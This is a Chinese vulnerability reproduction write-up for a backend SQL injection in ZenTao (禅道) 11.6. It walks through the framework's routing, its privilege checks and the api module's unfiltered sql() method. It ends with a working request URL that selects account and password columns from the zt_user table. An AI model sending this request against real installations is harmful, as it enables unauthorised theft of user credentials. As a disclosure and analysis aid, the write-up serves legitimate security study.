



# 禅道 11.6 api-getModel-api-sql-sql 后台SQL注入漏洞

## 漏洞描述

禅道 11.6 版本中对用户接口调用权限过滤不完善，导致调用接口执行SQL语句导致SQL注入

## 影响版本

<a-checkbox checked>禅道 11.6</a-checkbox></br>

## 环境搭建

<a-checkbox checked>这里使用docker环境搭建</a-checkbox></br>

```plain
docker run --name zentao_v11.6 -p 8084:80 -v /u01/zentao/www:/app/zentaopms -v /u01/zentao/data:/var/lib/mysql -e MYSQL_ROOT_PASSWORD=123456 -d docker.io/yunwisdom/zentao:v11.6
```


## 漏洞复现


先对禅道的调用流程进行分析,先查看目录`www/index.php`首页文件中


这里使用`router::createApp`创建了一个APP对象


```php
$app = router::createApp('pms', dirname(dirname(__FILE__)), 'router');
```


来到`framework/base/router.class.php`文件查看到`createApp`方法





```php
 public static function createApp($appName = 'demo', $appRoot = '', $className = '')
    {
        if(empty($className)) $className = __CLASS__;
        return new $className($appName, $appRoot);
    }
```


这里New了一个对象，查看一下调用方法(348行)





在358行处调用`setConfigRoot`方法


```php
$this->setConfigRoot();

public function setConfigRoot()
    {
        $this->configRoot = $this->basePath . 'config' . DS;
    }
```


在363行处调用`loadMainConfig`方法


```php
$this->loadMainConfig();

public function loadMainConfig()
    {
        /* 初始化$config对象。Init the $config object. */
        global $config, $filter;
        if(!is_object($config)) $config = new config();
        $this->config = $config;

        /* 加载主配置文件。 Load the main config file. */
        $mainConfigFile = $this->configRoot . 'config.php';
        if(!file_exists($mainConfigFile)) $this->triggerError("The main config file $mainConfigFile not found", __FILE__, __LINE__, $exit = true);
        include $mainConfigFile;
    }
```


这里包含了配置文件`config.php`配置文件，文件目录为`/config/config.php`，在25行定义了调用方法

```php
$config->requestType = 'PATH_INFO';         // 请求类型：PATH_INFO|PATHINFO2|GET。    The request type: PATH_INFO|PATH_INFO2|GET.
$config->requestFix  = '-';                 // PATH_INFO和PATH_INFO2模式的分隔符。    The divider in the url when PATH_INFO|PATH_INFO2.
$config->moduleVar   = 'm';                 // 请求类型为GET：模块变量名。            requestType=GET: the module var name.
$config->methodVar   = 'f';                 // 请求类型为GET：模块变量名。            requestType=GET: the method var name.
$config->viewVar     = 't';                 // 请求类型为GET：视图变量名。            requestType=GET: the view var name.
$config->sessionVar  = 'zentaosid';         // 请求类型为GET：session变量名。         requestType=GET: the session var name.
$config->views       = ',html,json,mhtml,xhtml,'; // 支持的视图类型。                       Supported view formats.
```


可以发现这里存在两种`PATH_INFO|PATH_INFO2`：一种是m、f、t来进行调用。另外一种是通过-来进行调用


在`index.php中的66行`


```php
$app->parseRequest();

public function parseRequest()
    {
        if($this->config->requestType == 'PATH_INFO' or $this->config->requestType == 'PATH_INFO2')
        {
            $this->parsePathInfo();
            $this->setRouteByPathInfo();
        }
        elseif($this->config->requestType == 'GET')
        {
            $this->parseGET();
            $this->setRouteByGET();
        }
        else
        {
            $this->triggerError("The request type {$this->config->requestType} not supported", __FILE__, __LINE__, $exit = true);
        }
    }
```


看到这一条则是判断力两种调用方法


```php
$this->config->requestType == 'PATH_INFO' or $this->config->requestType == 'PATH_INFO2'
```


跟进`setRouteByPathInfo方法`


```php
public function setRouteByPathInfo()
    {
        if(!empty($this->URI))
        {
            /*
             * 根据$requestFix分割符，分割网址。
             * There's the request seperator, split the URI by it.
             **/
            if(strpos($this->URI, $this->config->requestFix) !== false)
            {
                $items = explode($this->config->requestFix, $this->URI);
                $this->setModuleName($items[0]);
                $this->setMethodName($items[1]);
            }    
            /*
             * 如果网址中没有分隔符，使用默认的方法。
             * No reqeust seperator, use the default method name.
             **/
            else
            {
                $this->setModuleName($this->URI);
                $this->setMethodName($this->config->default->method);
            }
        }
        else
        {    
            $this->setModuleName($this->config->default->module);   // 使用默认模块 use the default module.
            $this->setMethodName($this->config->default->method);   // 使用默认方法 use the default method.
        }
        $this->setControlFile();
    }
```


所以可以推断出调用的方法


例如`登录页面`有两种访问方法


```plain
http://xxx.xxx.xxx.xxx/index.php?m=user&f=login
http://xxx.xxx.xxx.xxx/user-login.html
```


再看一下`checkPriv方法`


```php
public function checkPriv()
    {
        $module = $this->app->getModuleName();
        $method = $this->app->getMethodName();
        if(!empty($this->app->user->modifyPassword) and (($module != 'my' or $method != 'changepassword') and ($module != 'user' or $method != 'logout'))) die(js::locate(helper::createLink('my', 'changepassword')));
        if($this->isOpenMethod($module, $method)) return true;
        if(!$this->loadModel('user')->isLogon() and $this->server->php_auth_user) $this->user->identifyByPhpAuth();
        if(!$this->loadModel('user')->isLogon() and $this->cookie->za) $this->user->identifyByCookie();

        if(isset($this->app->user))
        {
            if(!commonModel::hasPriv($module, $method)) $this->deny($module, $method);
        }
        else
        {
            $referer  = helper::safe64Encode($this->app->getURI(true));
            die(js::locate(helper::createLink('user', 'login', "referer=$referer")));
        }
    }
```


这里检测了调用模块和方法的权限，可以知道除了`isOpenMethod`中定义的公开模块和方法之外，其他的方法都是需要登录的


最后是`$app->loadModule();`这段代码


```php
public function loadModule()
    {
        $appName    = $this->appName;
        $moduleName = $this->moduleName;
        $methodName = $this->methodName;

        /* 
         * 引入该模块的control文件。
         * Include the control file of the module.
         **/
        $file2Included = $this->setActionExtFile() ? $this->extActionFile : $this->controlFile;
        chdir(dirname($file2Included));
        helper::import($file2Included);

        /*
         * 设置control的类名。
         * Set the class name of the control.
         **/
        $className = class_exists("my$moduleName") ? "my$moduleName" : $moduleName;
        if(!class_exists($className)) $this->triggerError("the control $className not found", __FILE__, __LINE__, $exit = true);

        /*
         * 创建control类的实例。
         * Create a instance of the control.
         **/
        $module = new $className();
        if(!method_exists($module, $methodName)) $this->triggerError("the module $moduleName has no $methodName method", __FILE__, __LINE__, $exit = true);
        $this->control = $module;

        /* include default value for module*/
        $defaultValueFiles = glob($this->getTmpRoot() . "defaultvalue/*.php");
        if($defaultValueFiles) foreach($defaultValueFiles as $file) include $file;

        /* 
         * 使用反射机制获取函数参数的默认值。
         * Get the default settings of the method to be called using the reflecting. 
         *
         * */
        $defaultParams = array();
        $methodReflect = new reflectionMethod($className, $methodName);
        foreach($methodReflect->getParameters() as $param)
        {
            $name = $param->getName();

            $default = '_NOT_SET';
            if(isset($paramDefaultValue[$appName][$className][$methodName][$name]))
            {
                $default = $paramDefaultValue[$appName][$className][$methodName][$name];
            }
            elseif(isset($paramDefaultValue[$className][$methodName][$name]))
            {
                $default = $paramDefaultValue[$className][$methodName][$name];
            }
            elseif($param->isDefaultValueAvailable())
            {
                $default = $param->getDefaultValue();
            }

            $defaultParams[$name] = $default;
        }

        /** 
         * 根据PATH_INFO或者GET方式设置请求的参数。
         * Set params according PATH_INFO or GET.
         */
        if($this->config->requestType != 'GET')
        {
            $this->setParamsByPathInfo($defaultParams);
        }
        else
        {
            $this->setParamsByGET($defaultParams);
        }

        if($this->config->framework->filterParam == 2)
        {
            $_GET     = validater::filterParam($_GET, 'get');
            $_COOKIE  = validater::filterParam($_COOKIE, 'cookie');
        }

        /* 调用该方法   Call the method. */
        call_user_func_array(array($module, $methodName), $this->params);
        return $module;
    }
```


通过之前获取的`moduleName`包含对应的`control类`文件并实例化，随后调用`setParamsByPathInfo`方法从路径中获取方法对应的参数值，最后通过`call_user_func_array`方法调用对应`control类`中的对应方法并赋值。


我们查看`module/api/control.php`文件中的`getModel`方法


这里通过`call_user_func_array`函数调用所有的`model文件`的所有方法。


```php
$result = call_user_func_array(array(&$module, $methodName), $params);
```


可以看到`module/api/moudel.php`中的`sql函数`


```php
public function sql($sql, $keyField = '')
{
    $sql  = trim($sql);
    if(strpos($sql, ';') !== false) $sql = substr($sql, 0, strpos($sql, ';'));
    a($sql);
    if(empty($sql)) return '';

    if(stripos($sql, 'select ') !== 0)
    {
        return $this->lang->api->error->onlySelect;
    }
    else
    {
        try
        {
            $stmt = $this->dao->query($sql);
            if(empty($keyField)) return $stmt->fetchAll();
            $rows = array();
            while($row = $stmt->fetch()) $rows[$row->$keyField] = $row;
            return $rows;
        }
        catch(PDOException $e)
        {
            return $e->getMessage();
        }
    }
}
```


这里并没有进行过滤，只使用了代码`$sql=trim($sql)`过滤了空格


我们看一下这里的调用这个方法需要的权限





这里可以看到任何用户都可以调用这个模块的方法，所以我们用它调用`sql`方法进行查询(空格转换为+,绕过过滤)


```plain
http://xxx.xxx.xxx.xxx/api-getModel-api-sql-sql=select+account,password+from+zt_user
```


成功执行sql语句